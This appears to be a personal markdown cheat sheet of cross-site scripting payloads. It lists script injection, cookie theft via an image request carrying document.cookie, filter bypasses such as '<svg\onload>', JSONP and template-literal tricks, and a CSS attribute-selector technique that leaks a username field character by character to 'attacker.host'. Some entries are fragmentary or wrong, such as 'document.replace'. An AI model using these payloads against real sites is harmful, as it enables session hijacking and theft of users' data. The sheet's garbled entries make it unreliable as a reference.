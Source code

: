 # XSS Payloads

1. `<script>alert(1)</script>`
2. `document.replace("attacker")` for if outbound is blocked
3. `XMLHTTP request`
4. `fetch` or `$.get` (fetch is built in)
5. `document.write('<img src="'+attack+'">"')`
6. `document.write('<img src="attacker" onerror="mallicious">')`
7. `<script>new Image().src = "fsfsfsfsfsfsd?"+document.cookie`
    - note that '//' is the default protocol i.e 'http://'
8. `<svg onload=''>`
    - note thst if spaces are blocked yu can do `<svg\onload="lol">`
9. jsonp `http://news.com/wethertype=jsonp&method=somefunction` runs function
    - use comma expressions to run whatever you want
10. templete literals :(
    - Array.join`${document.cookie}`
11. sometimes grab the enite page source rather then the cookie.
12. onload and onfocus to trigger
13. not xss but we can use css to send requests.

```css
#username[value^="a"] {
  background: url("https://attacker.host/?letter=a");
}
#username[value^="b"] {
  background: url("https://attacker.host/?letter=b");
}

```

once you get the first letter you repeat
```css
#username[value^="aa"] {
  background: url("https://attacker.host/?letter=aa");
}
#username[value^="ab"] {
  background: url("https://attacker.host/?letter=ab");
}

```

you need to write a script to slowly guess the string each time.

14. polyglots
15. angular: http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
